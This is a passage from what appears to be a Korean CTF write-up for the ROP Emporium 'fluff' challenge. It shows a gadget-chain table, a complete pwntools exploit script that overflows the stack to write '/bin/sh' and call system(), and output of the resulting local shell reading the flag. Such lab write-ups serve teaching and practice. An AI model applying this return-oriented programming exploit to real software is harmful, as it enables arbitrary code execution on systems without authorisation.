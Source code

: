     <tr><td>ret for b : d</td></tr>
    <tr><td>param[0] : 0</td></tr>
    <tr><td>param[1] : 0</td></tr>
    <tr><td>ret for d : pop_rdi</td></tr>
    <tr><td>param[0] : 0x601000</td></tr>
    <tr><td>ret for pop_rdi : system@plt</td></tr>
</table>

exploit.py:
```python
from pwn import *

e = ELF('./fluff')
rdi_ret = 0x4008c3
buf = 0x601000
binsh = '/bin/sh\x00'
a = 0x400822
b = 0x40082f
c = 0x400840
d = 0x40084e

pl = 'a'*0x28 + p64(a)
pl += p64(0) + p64(b)
pl += p64(0x201650) + p64(b)
pl += binsh + p64(c)
pl += p64(0) + p64(a)
pl += p64(0) + p64(b)
pl += p64(0) + p64(d)
pl += p64(0)*2 + p64(rdi_ret)
pl += p64(buf) + p64(e.plt['system'])

f = open('test', 'w')
f.write(pl)
f.close()

p = process('./fluff')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/fluff$ python exp.py
[*] '/home/junheah/ropemp/fluff/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './fluff': pid 1226
[*] Switching to interactive mode
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```
